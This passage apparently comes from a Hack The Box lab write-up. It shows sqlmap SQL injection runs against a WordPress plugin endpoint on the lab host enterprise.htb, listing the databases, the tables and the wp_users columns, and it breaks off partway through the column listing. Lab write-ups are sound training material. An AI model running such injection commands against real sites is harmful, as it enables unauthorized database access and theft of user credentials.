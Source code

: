 ```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpressdb --tables

[05:25:49] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 8 (jessie)
web application technology: Apache 2.4.10, PHP 5.6.31
back-end DBMS: MySQL >= 5.0
[05:25:49] [INFO] fetching tables for database: 'wordpressdb'
[05:25:50] [INFO] fetching number of tables for database 'wordpressdb'
[05:25:50] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[05:25:50] [INFO] retrieved: 0
[05:25:51] [WARNING] database 'wordpressdb' appears to be empty
[05:25:51] [ERROR] unable to retrieve the table names for any database
do you want to use common table existence check? [y/N/q] N
No tables found
[05:25:51] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/enterprise.htb' 
```

`wordpressdb` is empty. What about `wordpress`?

```bash
┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpress --tables 

<SNIP>

Database: wordpress
[12 tables]
+-----------------------+
| wp_commentmeta        |
| wp_comments           |
| wp_links              |
| wp_options            |
| wp_postmeta           |
| wp_posts              |
| wp_term_relationships |
| wp_term_taxonomy      |
| wp_termmeta           |
| wp_terms              |
| wp_usermeta           |
| wp_users              |
+-----------------------+



┌──(kali㉿kali)-[~/htb]
└─$ sqlmap -u "http://enterprise.htb/wp-content/plugins/lcars/lcars_db.php?query=1" --batch -D wordpress -T wp_users --columns

<SNIP>

Database: wordpress
Table: wp_users
[10 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| display_name        | varchar(250)        |
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(255)        |
```